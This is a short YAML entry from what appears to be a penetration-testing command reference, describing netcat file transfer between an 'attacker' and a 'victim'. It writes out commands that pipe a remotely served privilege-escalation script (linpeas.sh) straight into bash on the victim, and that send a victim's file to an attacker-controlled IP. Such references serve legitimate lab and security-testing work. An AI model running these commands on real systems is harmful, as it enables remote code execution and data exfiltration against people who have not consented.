 ```yaml
---
description: |
  The Netcat (nc) command is a command-line utility for reading and writing data between two computer networks. Which can be used to transfer files between victim and attacker.

  Command Reference:

  	File to copy: linpeas.sh

command: |
  nc -lvnp 9001 < linpeas.sh

code: |
  Copy from attacker to victim:  
  nc -lvnp 9001 < linpeas.sh (attacker) 
    
  nc 10.10.21.14 9001 | bash (victim)

  Copy from victim to attacker: 
  nc 10.10.21.14 9001 < file.txt (victim)
    
  nc -lvnp 9001 > file.txt (attacker)

items:
  - Shell
services:

OS:
  - Windows
  - Linux
attack_types:
  - General
references:
  - https://medium.com/iostrap/how-to-transfer-files-between-servers-using-netcat-d8bc13eebea
  - https://linux.die.net/man/1/nc
---
```

